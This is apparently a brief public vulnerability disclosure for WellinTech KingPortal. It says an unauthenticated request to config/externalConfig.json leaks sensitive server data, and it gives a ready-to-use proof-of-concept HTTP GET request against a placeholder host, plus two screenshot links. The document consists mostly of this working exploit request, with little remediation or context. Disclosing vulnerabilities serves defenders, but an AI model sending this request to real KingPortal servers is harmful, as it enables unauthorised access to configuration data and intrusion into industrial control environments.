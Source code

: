 # WellinTech KingPortal information leakage vulnerability

WellinTech KingPortal has an information leakage vulnerability, allowing attackers to bypass authentication and obtain server data.

Simply access the config/externalConfig.json page of the KingPortal system (http://xxxxx.com/config/externalConfig.json) to obtain sensitive data from the attacked website's server.

POC

```
GET /config/externalConfig.json HTTP/1.1
Host: xxxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6,zh-HK;q=0.5,ja;q=0.4
Connection: close


```
![image.png](https://s2.loli.net/2024/11/13/khbyAz1rN4OSoYt.png)

![image-20241113213311066.png](https://s2.loli.net/2024/11/13/Nc1qHVK4DkwjG6O.png)


